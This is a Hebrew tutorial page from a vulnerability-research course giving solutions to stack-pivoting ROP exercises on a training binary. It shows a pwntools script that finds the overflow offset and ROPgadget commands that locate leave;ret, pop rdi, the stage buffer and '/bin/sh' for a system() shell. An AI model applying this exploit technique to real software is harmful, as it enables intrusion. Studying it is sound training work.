

repository: AmitPinchasi/amittech · page: מחקר-חולשות/6 - ROP מתקדם/6.1 - stack pivoting/6.1 - stack pivoting - פתרון/index.html · generator: mkdocs

## פתרון - הזזת מחסנית - stack pivoting

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות בפלט הן דוגמה - אצלכם הן עשויות להשתנות מעט בין גרסאות מהדר, אז תמיד שלפו אותן מהבינארי שלכם ואל תעתיקו עיוור.

### פתרון תרגיל 1 - להוכיח שאין מקום

בדיקת ההגנות:

```bash
$ checksec --file=./pivot
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

בדיוק מה שרצינו: אין canary (הoverflow עוברת), `NX` פעיל (אנחנו ב-ROP), אין PIE (כתובות קבועות). עכשיו מציאת ה-offset. שולחים דמה לקריאה הראשונה ו-`cyclic` לשנייה:

```python
from pwn import *
context.binary = ELF('./pivot')

p = process('./pivot')
p.recvuntil(b'stage:')
p.send(b'X' * 16)               # dummy input for the first read (to stage)
p.recvuntil(b'overflow:')
p.send(cyclic(80))             # the short overflow
p.wait()

core = p.corefile
fault = core.read(core.rsp, 8)
log.info('offset = %d', cyclic_find(fault))
```

הפלט:

```text
[*] offset = 72
```

אז ה-offset עד return address הוא 72 (buffer 64 + `saved rbp` 8). הקריאה השנייה קוראת בדיוק 80 בתים: 72 עד return address, 8 בתים לדריסת return address, ו-**אפס** בתים אחריה. אין שום מקום לchain. זו כל המוטיבציה: אנחנו יכולים לדרוס את `saved rbp` ואת return address, וזהו - בדיוק שני הרכיבים שצריך כדי לבצע פיבוט עם `leave ; ret`.

### פתרון תרגיל 2 - איתור הרכיבים

```bash
$ ROPgadget --binary ./pivot | grep ': leave ; ret'
0x0000000000401185 : leave ; ret

$ ROPgadget --binary ./pivot | grep 'pop rdi ; ret'
0x0000000000401263 : pop rdi ; ret

$ ROPgadget --binary ./pivot | grep ': ret$'
0x000000000040101a : ret
```

את שאר הרכיבים נשלוף מ-pwntools בתוך הסקריפט: `elf.symbols['stage']` לכתובת הבמה, `next(elf.search(b'/bin/sh\x00'))` למחרוזת, ו-`elf.plt['system']` לקריאה. אפשר לאמת ידנית:

```bash
$ nm ./pivot | grep ' stage'
0000000000404060 B stage

$ ROPgadget --binary ./pivot --string '/bin/sh'
0x0000000000402008 : /bin/sh
```
